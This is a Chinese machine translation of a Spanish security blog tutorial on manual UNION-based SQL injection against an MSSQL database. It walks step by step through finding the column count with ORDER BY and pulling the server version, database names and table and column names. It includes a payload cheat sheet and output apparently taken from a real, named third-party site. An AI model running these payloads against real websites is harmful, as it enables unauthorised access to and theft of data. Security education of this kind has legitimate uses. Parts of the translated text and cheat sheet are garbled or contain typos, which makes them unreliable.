






# 有趣的 SQL 注入 3 — MSSQL 实用示例 | In 西班牙语

> 原文：<https://infosecwriteups.com/inyecci%C3%B3n-sql-divertida-3-mssql-ejemplo-practico-43f883f5eeb7?source=collection_archive---------2----------------------->

你好,亲爱的读者,我真的很高兴你能给我一些宝贵的时间来阅读下面的文章。这一次,我将继续使用 SQL 注入系列,更具体地说,我们将使用后端 MSSQL 数据库分析易受 SQL 注入影响的网站。



首先我想记住**什么是 SQL 注入?(T1):**

> “SQL 注入或 SQL 注入是一个漏洞,允许攻击者以恶意和恶意的方式发送或“注入”SQL 语句。
> 
> SQL 错误通常发生在具有或创建 SQL 的程序中的变量过滤不当的情况下,通常是当您向用户请求任何未经验证的输入(例如其名称和密码)时,但作为交换,攻击者发送一个将在数据库中执行的入侵 SQL 语句。

看完一些基础知识后,我们就开始了。

首先是找到一个我们可以练习的易受攻击的站点,当我们确定了易受攻击的参数时,我们会玩一点。

## **第 1 步——识别易受攻击的网站上的错误**

作为第一步,我们需要做的第一件事是确定该网站是否真的易受攻击,并确保我们实际上使用的是 MSSQL 数据库。

我们有 link:

> “site/example/parameter=27”

我们可以看到该网站从一开始就向我们显示以下错误,描述其 SQL 语法中存在内部错误,同时显示它使用 MSSQL。

> **警告** : mssql_query() [function.mssql-query]: 消息: 语法在关键字“和”附近不正确。



## 步骤 2 — 识别列数

既然我们已经确定该网站是脆弱的,并且我们知道我们正在处理的数据库,在这种情况下是 MSSQL,那么是时候检测列数了,我们将使用函数 **ORDER BY** 。

使用上述功能,我们进行初步测试,以验证网站是否允许我们使用此列检测方法。

我们首先看到的是,使用***order by 1*** 网站仍然正常运行,但是使用***order by 100*** 一切都崩溃并显示错误,这是一个很好的方法,这意味着我们可以使用这种方法来检测,例如:

```
site/ejemplo/parametro=-25527 order by 1 -- ✔

site/ejemplo/parametro=-25527 order by 100 -- x
```



> 警告 : mssql_query() [function.mssql-query]: message: The Order By position number 100 is out of the range of items in the selected list.(Severity 16)

我们要寻找的是一个平衡点,在那里我们有确切的列数,不要放更少,但也不要更多。

```
site/ejemplo/parametro=-27 order by 1 -- ✔
site/ejemplo/parametro=-27 order by 10 -- ✔
site/ejemplo/parametro=-27 order by 22 --✔
site/ejemplo/parametro=-27 order by 23 -- x
site/ejemplo/parametro=-27 order by 24 -- x
site/ejemplo/parametro=-27 order by 100 -- x
```

上面的列表是什么意思?基本上,我们正在做的是询问下面的数据库,如果该 URL 中的网站正在使用特定数量的列,当我们询问它是否正在使用更大的数字时,我们会返回一个错误,例如在最后一张图片中看到的错误。

该网站有 22 个栏目。

转到下一个命令。**union select (T1)**

为了正确使用以下命令,我们需要给出我们要处理的特定列数。使用此命令,我们告诉数据库我想使用这些列,这将使我们能够准确地看到每个列的位置以及它在网站上的使用位置,以便从其中一个列中工作并使用更多选项提取数据。

```
site/ejemplo/parametro=-27 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--
```



现在,通过要求数据库向我们显示 22 列的位置,我们可以看到网站上不同部分的数字从 1 到 22 不等。这些代表列以及它们被使用的位置。

## 步骤 3 - 提取信息

要进入提取信息的主题,请记住,我们在 MSSQL 下作为数据库工作,因此我们必须集中使用 MSSQL 命令。

我将从 MSSQL 留下一个**CHEAT-CHEET**

```
--           :     Comment Type 1
--+          :     Comment Type 2
--+-         :     SQL Comment
/**/         :     Inline Comment
;%00         :     Null Byte
@@version    :     Current Version
user_name()  :     Current User
user         :     Current User
db_name()    :     Current Database
@@SERVERNAME :     Hostname
Tables       :     union select table_name from (select top 1 table_name from information_schema.tables order by 1) as 1 order by 1 desc--
Columns      :     union select column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--
Dump info    :     union select culumn form table--
```

我们首先要求数据库告诉我们它是什么版本,我们使用@@version 命令。URL 是这样的:

```
site/ejemplo/parametro=-27 UNION SELECT 1,2,3,@@version,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--
```

我们在第 4 列中使用它,结果如下:



因此,数据库返回有关其版本的信息:

```
Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
 Jul  9 2008 14:17:44 
 Copyright (c) 1988-2008 Microsoft Corporation
 Standard Edition (64-bit) on Windows NT 6.2 <X64> (Build 9200: ) (VM)
```

我们已经知道它是一个 MSSQL 2008 (RTM) 数据库 — 10.0.1600.22

要从数据库中提取名称,我们使用以下方法:

```
DB_NAME(N); — for N = 0, 1, 2, …

-27 UNION SELECT 1,2,3,DB_NAME(5),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--
```



我们可以注意到,我选择的数据库名为:ASSIPROFAR

要从表中提取名称,我们使用以下内容:

```
table_name + from (select top 1 table_name from information_schema.tables order by 1) as a order by 1 desc
```

从每个表的列中提取名称

```
column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--
```

在这种情况下,我将跳过放置图像,以便不显示网站的敏感信息。

我把这封信留到这里。如果你喜欢这种类型的内容,并一直停留到这一点,我再次感谢你,给我的机会和明确的,如果你喜欢,并希望在这里分享的信息,你可以分享。